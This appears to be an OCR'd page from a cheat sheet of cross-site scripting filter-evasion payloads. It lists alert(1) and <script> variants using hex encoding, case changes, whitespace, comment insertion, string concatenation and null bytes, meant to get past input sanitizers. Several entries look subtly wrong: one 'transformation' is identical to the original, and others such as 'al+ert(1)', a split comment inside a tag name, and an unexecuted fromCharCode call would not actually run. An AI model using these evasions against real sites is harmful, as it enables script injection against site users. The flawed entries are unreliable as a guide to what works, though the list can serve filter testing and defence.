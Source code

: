 #### Hex Encoding
```python
alert(1)
→ \x61\x6c\x65\x72\x74\x28\x31\x29
```

### Case Variation

```python
<script>alert(1)</script>
→ <ScRiPt>alert(1)</ScRiPt>
→ <SCRIPT>alert(1)</SCRIPT>
→ <sCrIpT>alert(1)</sCrIpT>
```

### Whitespace Injection

```python
<script>alert(1)</script>
→ <script >alert(1)</script >
→ <script  >alert(1)</script  >
→ <script\t>alert(1)</script\t>
→ <script\n>alert(1)</script\n>
```

### Comment Insertion

#### HTML Comments
```python
<script>alert(1)</script>
→ <script><!---->alert(1)</script>
→ <scr<!---->ipt>alert(1)</scr<!---->ipt>
```

#### JavaScript Comments
```python
alert(1)
→ al/**/ert(1)
→ al//\nert(1)
```

### String Concatenation

```python
alert(1)
→ alert(1)
→ al+ert(1)
→ "al"+"ert"+(1)
→ String.fromCharCode(97,108,101,114,116)
```

### Null Byte Injection

```python
<script>alert(1)</script>
→ <script\x00>alert(1)</script>
→ <scr\x00ipt>alert(1)</scr\x00ipt>
```

